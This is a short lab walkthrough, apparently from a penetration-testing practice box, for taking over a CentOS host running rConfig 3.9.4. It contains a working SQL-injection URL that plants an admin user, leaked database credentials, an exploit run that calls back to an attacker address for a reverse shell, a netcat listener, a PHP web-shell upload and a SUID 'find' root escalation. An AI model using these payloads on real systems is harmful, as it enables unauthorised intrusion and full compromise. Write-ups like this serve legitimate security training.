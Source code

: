 # 🐧 CentOS (Linux) Walkthrough

## 🌐 Initial Foothold

- Discovered the following ports open:
  - 🎯 **21** - Can't list files.
  - 🔐 **22** - Closed.
  - 🌍 **80** - Hosting CentOS rConfig.

- Identified **rConfig Version 3.9.4** via web interface.
- Used SQL Injection to create an admin user:

```
https://192.168.110.57:8081/commands.inc.php?searchOption=contains&searchField=vuln&search=search&searchColumn=command ;INSERT INTO `users` (`id`, `username`, `password`, `userid`, `userlevel`, `email`, `timestamp`, `status`) VALUES ('450', 'apple', '1f3870be274f6c49b3e31a0c6728957f', '6c97424dc92f14ae78f8cc13cd08308d', 9, 'apple@domain.com', 1346920339, 1);--
```

- Logged in with: `apple:apple`
- Navigated to:

```
https://192.168.110.57:8081/settingsBackup.php#
```

- Created a system backup and extracted it.
- Found DB creds in `config.inc.php`:

```php
define('DB_PORT', '3306');
define('DB_NAME', 'rconfig');
define('DB_USER', 'rconfig_user');
define('DB_PASSWORD', 'RconfigUltraSecurePass');
```

- Used exploit:

```bash
python3 48241.py https://192.168.110.57:8081 apple apple 192.168.45.166 80
```

- Started listener:

```bash
nc -nlvp 80
```

- Got a shell as `apache` user.
- Uploaded `shell.php` to rConfig folder for a stable shell.

## 🚀 Privilege Escalation

- Ran `linpeas.sh` for enumeration.
- Found SUID on `find`.

### 📜 Exploited with:

```bash
/usr/bin/find . -exec /bin/sh -p \; -quit
```

---

## 🧾 Git Commands

```bash
# Move the file
mv ~/Downloads/CentOS.md ~/Downloads/walkthroughs_project_template/linux/CentOS.md

# Change to the project directory
cd ~/Downloads/walkthroughs_project_template

# Stage changes
git add .

# Commit with message
git commit -m "Added CentOS (Linux) walkthrough"

# Push to GitHub
git push
```
